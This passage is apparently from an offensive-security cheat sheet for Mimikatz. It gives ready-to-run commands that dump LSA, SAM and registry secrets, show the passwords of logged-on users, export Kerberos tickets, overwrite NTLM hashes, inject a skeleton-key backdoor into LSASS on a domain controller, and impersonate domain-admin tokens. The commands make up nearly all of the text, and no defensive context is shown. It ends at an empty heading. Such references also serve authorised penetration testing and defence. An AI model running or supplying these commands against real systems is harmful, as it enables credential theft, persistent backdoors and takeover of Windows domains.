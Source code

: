 ### Credential Access

- **LSADUMP::LSA**: Extract credentials from LSA.

  - `mimikatz "lsadump::lsa /inject" exit`

- **LSADUMP::NetSync**: Impersonate a DC using a computer account's password data.

  - _No specific command provided for NetSync in original context._

- **LSADUMP::SAM**: Access local SAM database.

  - `mimikatz "lsadump::sam" exit`

- **LSADUMP::Secrets**: Decrypt secrets stored in the registry.

  - `mimikatz "lsadump::secrets" exit`

- **LSADUMP::SetNTLM**: Set a new NTLM hash for a user.

  - `mimikatz "lsadump::setntlm /user:targetUser /ntlm:newNtlmHash" exit`

- **LSADUMP::Trust**: Retrieve trust authentication information.
  - `mimikatz "lsadump::trust" exit`

### Miscellaneous

- **MISC::Skeleton**: Inject a backdoor into LSASS on a DC.
  - `mimikatz "privilege::debug" "misc::skeleton" exit`

### Privilege Escalation

- **PRIVILEGE::Backup**: Acquire backup rights.

  - `mimikatz "privilege::backup" exit`

- **PRIVILEGE::Debug**: Obtain debug privileges.
  - `mimikatz "privilege::debug" exit`

### Credential Dumping

- **SEKURLSA::LogonPasswords**: Show credentials for logged-on users.

  - `mimikatz "sekurlsa::logonpasswords" exit`

- **SEKURLSA::Tickets**: Extract Kerberos tickets from memory.
  - `mimikatz "sekurlsa::tickets /export" exit`

### Sid and Token Manipulation

- **SID::add/modify**: Change SID and SIDHistory.

  - Add: `mimikatz "sid::add /user:targetUser /sid:newSid" exit`
  - Modify: _No specific command for modify in original context._

- **TOKEN::Elevate**: Impersonate tokens.
  - `mimikatz "token::elevate /domainadmin" exit`

### Terminal Services
